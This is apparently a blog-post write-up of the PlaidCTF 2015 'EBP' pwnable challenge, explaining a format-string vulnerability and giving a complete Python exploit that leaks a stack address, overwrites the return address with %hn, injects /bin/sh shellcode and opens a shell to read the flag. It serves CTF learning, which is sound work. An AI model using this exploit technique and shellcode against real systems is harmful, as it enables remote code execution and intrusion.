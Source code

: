 ```yaml
---
layout: post
title: "PlaidCTF CTF 2015 - EBP Writeup"
date: 2015-04-20 22:40:13 +0430
comments: true
categories: ctf plaidctf fmt pwnable
---
```


**PlaidCTF 2015 EBP Writeup**  
**Point = 160**  
**Category = Pwnable**  

Unfortunately the CTF time for our team was completely under heavy pressure. but here is one i solved in my free time.

> Category: Pwnable Points: 160 Solves: 157 Description:
>    nc 52.6.64.173 4545
>    Download: %p%o%o%p.


We are given an ELF file:

```
$ file ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
ebp_a96f7231ab81e1b0d7fe24d660def25a.elf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
```

first attempt peresented us that it's a Format String Vulenrability.

```
$ ./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
%p%p%p%p%p
0xa0x10xf76c40000xffec67180x804852c
```

We noticed that the binary is provided with disabled NX.
<!-- more -->
```
checksec.sh --file ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ebp_a96f7231ab81e1b0d7fe24d660def25a.elf
```
So it was pretty simple to run our shellcode and execute proper command to read the flag.

It was the time to see the binary. IDA showed us that the buggy function is `make_response` since no FMT was used.

```
int make_response()
{
  return snprintf(response, 0x400u, buf);
}
```

but `response` and `buf` are on **BSS** and we should change execution flow to this address `0x0804A480`.

By dumping stack on executing `make_response` we had these values:

```
Breakpoint 1, 0x08048503 in make_response ()
gdb-peda$ x/64wx $esp
0xffffcc30:     0xf7fadc20      0x0804a080      0x000003ff      0x0000000a
0xffffcc40:     0x00000001      0xf7fad000      0xffffcc68      0x0804852c
0xffffcc50:     0xffffcc88      0xf7ff04b0      0xffffccb4      0xf7fad000
0xffffcc60:     0x00000000      0x00000000      0xffffcc88      0x08048557
0xffffcc70:     0x0804a080      0x00000400      0xf7fadc20      0xf7fad000
0xffffcc80:     0x08048580      0x00000000      0x00000000      0xf7e1da83
0xffffcc90:     0x00000001      0xffffcd24      0xffffcd2c      0xf7feac9a
0xffffcca0:     0x00000001      0xffffcd24      0xffffccc4      0x0804a01c
0xffffccb0:     0x08048278      0xf7fad000      0x00000000      0x00000000
0xffffccc0:     0x00000000      0xb9b964cc      0x8594c0dc      0x00000000
0xffffccd0:     0x00000000      0x00000000      0x00000001      0x08048400
0xffffcce0:     0x00000000      0xf7ff04b0      0xf7e1d999      0xf7ffd000
0xffffccf0:     0x00000001      0x08048400      0x00000000      0x08048421
0xffffcd00:     0x08048547      0x00000001      0xffffcd24      0x08048580
0xffffcd10:     0x080485f0      0xf7feb130      0xffffcd1c      0x0000001c
0xffffcd20:     0x00000001      0xffffcf57      0x00000000      0xffffcf96
```

You may notice that to overwriting a value via FMT vuln we should provide an address to `%n`. but we had just BSS variables so we should make this environment manually. As name of the challenge suggets we can use saved frame pointer since it has address of this frame. The scenario is pretty simple:

1. leak an stack address to find location of RET address of current function `make_response`.
2. overwrite RET address in place of saved frame pointer (which ebp points to it).
3. again using a format string overwrite RET with `response` address. 

You should notice that we should write 2 least significant byte of ebp address location (%hhn).

TL;DR 

This is what i used as exploiting this challenge:

```
import socket
import struct
import telnetlib

response = 0x0804a480

offset = 4 # saved frame pointer offset 

shellcode = (  # /bin/sh shellcode at http://shell-storm.org/shellcode/files/shellcode-236.php
	"\x6a\x0b\x58\x99\x52\x68\x2f\x2f"
        "\x73\x68\x68\x2f\x62\x69\x6e\x54"
        "\x5b\x52\x53\x54\x59\x0f\x34"
)

s = socket.create_connection(("52.6.64.173", 4545 ))
#s = socket.create_connection(("127.0.0.1", 8080 ))
s.send("%4$p\n")
addr = int(s.recv(1024), 16)
print "[+] Leaked Address: ", hex(addr)
addr1 = (addr - 0x1c) & 0xffff
print "[+] 2Byte Significant Byte to write : ", hex(addr1) 

s.send("%"+str(addr1)+"x%"+str(offset)+"$hn\n")
s.recv(4096)

s.send(shellcode+"%"+str((response & 0xffff)-len(shellcode))+"x%"+str(12)+"$hn\n")
print "[+] Here you go"
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

running the exploit we have: 

```
$ python ebp-exploit.py 
[+] Leaked Address:  0xffbea7c8
[+] 2Byte Significant Byte to write :  0xa7ac
[+] Here you go
cat /home/problem/flag.txt
who_needs_stack_control_anyway?
```

So we've got 160 point.

@HAMIDx9
